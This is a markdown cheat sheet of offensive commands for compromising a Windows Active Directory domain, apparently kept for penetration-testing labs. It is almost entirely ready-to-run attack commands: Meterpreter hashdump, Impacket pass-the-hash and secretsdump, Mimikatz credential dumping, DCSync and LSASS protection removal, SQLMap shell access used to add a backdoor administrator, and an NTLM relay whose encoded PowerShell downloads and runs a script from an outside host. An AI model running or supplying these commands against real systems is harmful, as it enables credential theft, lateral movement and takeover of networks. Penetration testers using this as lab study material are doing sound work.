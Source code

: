 # Cheat Sheet - Exploitations and Shell

## Table of Content

* [Metasploit](#Metasploit)
* [Impacket](#Impacket)
* [Mimikatz](#Mimikatz)
* [Evil-WinRM](#Evil)
* [SQLMap](#SQLMap)
* [Relay Hash](#Relay)
* [PrintSpoofer](#Spoofer)
* [PSSession](#Session)
* [PsExec](#Exec)

### Metasploit<a name="Metasploit"></a>

```bash
auxiliary/scanner/portscan/tcp
exploit/multi/script/web_delivery
exploit/windows/local/bypassuac_fodhelper
post/windows/gather/credentials/enum_laps

meterpreter > load powershell
meterpreter > load incognito
meterpreter > load kiwi
meterpreter > hashdump

meterpreter > execute -H -f notepad
Process 3400 created.
meterpreter > migrate 3400
```

### Impacket<a name="Impacket"></a>
```bash
# Normal Usage
python3 /usr/share/doc/python3-impacket/examples/psexec.py Administrator@dc03.sinhack.com -hashes "aad3b435b51404eeaad3b435b51404ee:5f3421ca3b673adfdc2418f368ca3760" -target-ip 192.168.x.x
proxychains python3 /usr/share/doc/python3-impacket/examples/psexec.py sinhack.com/administrator@dc01.dev.sinhack.com -hashes "aad3b435b51404eeaad3b435b51404ee:0264d5b0a74d30f13f1fec243e8ac3cb" -target-ip 172.16.10.12 -dc-ip 172.16.10.11
proxychains python3 /usr/share/doc/python3-impacket/examples/secretsdump.py v0lk3n@sinhack.com -target-ip 172.16.x.x

# With Kerberos Authentication
proxychains python3 /usr/share/doc/python3-impacket/examples/psexec.py SINHACK.COM/v0lk3n@dc01.sinhack.com -k -no-pass -debug
proxychains python3 /usr/share/doc/python3-impacket/examples/secretsdump.py sinhack.com/v0lk3n@DC01.SINHACK.COM -k -no-pass
```

### Mimikatz<a name="Mimikatz"></a>

```bash
mimikatz # privilege::debug

mimikatz # sekurlsa::pth /user:admin /domain:dev1 /ntlm:1242C26BCD32E7A70F2EB3B9F05C425E /run:"mstsc.exe /restrictedadmin"

mimikatz # sekurlsa::logonpasswords

mimikatz # lsadump::dcsync /domain:sinhack.com /user:krbtgt
mimikatz # lsadump::dcsync /domain:sinhack.com /user:Administrator
mimikatz # lsadump::dcsync /domain:sinhack.com /user:sinhack\Administrator

#Disable the LSA protection and dump the credentials.
## Upload the mimidrv.sys to the victim and load the driver with Mimikatz
mimikatz # !+

## Disable the PPL protection for LSASS :
mimikatz # !processprotect /process:lsass.exe /remove

```

### Evil WinRm<a name="Evil"></a>

```bash
sudo gem install evil-winrm

proxychains evil-winrm -i 172.16.x.x -u v0lk3n -H NT_HASH
proxychains evil-winrm -i 172.16.x.x -u v0lk3n -H 6DB6CFDF45964A02A80E85A7AB9F4314
```

### SQLMap<a name="SQLMap"></a>

```bash
sqlmap -u 'TARGET_URL' --batch --dbs
sqlmap -u 'TARGET_URL' --os-shell --flush-session

os-shell> net user /add v0lk3n Fucked123!
do you want to retrieve the command standard output? [Y/n/a] n
os-shell> net localgroup administrators v0lk3n /add
do you want to retrieve the command standard output? [Y/n/a] n
```

### Relay Hash<a name="Relay"></a>

```bash
sudo responder -I tun0
sudo proxychains impacket-ntlmrelayx --no-http-server -smb2support -t 172.16.x.x -c 'powershell -enc aQBlAHgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABTAHkAcwB0AGUAbQAuAE4AZQB0AC4AVwBlAGIAQwBsAGkAZQBuAHQAKQAuAEQAbwB3AG4AbABvAGEAZABTAHQAcgBpAG4AZwAoACcAaAB0AHQAcAA6AC8ALwAxADkAMgAuADEANgA4AC4ANAA5AC4AMQAxADIAOgA4ADAAOAAwAC8AcABzAHIAdQBuAG4AZQByAC4AdAB4AHQAJwApAA=='
```

### PrintSpoofer<a name="Spoofer"></a>

```bash
PrintSpoofer64.exe -i -c cmd.exe
```

###PSSession<a name="Session"></a>

```bash
Enter-PSSession -Computer secret01.dev.sinhack.com
```

### PsExec<a name="Exec"></a>

```bash
PsExec64.exe \\dev1.secret.sinhack.com cmd
```
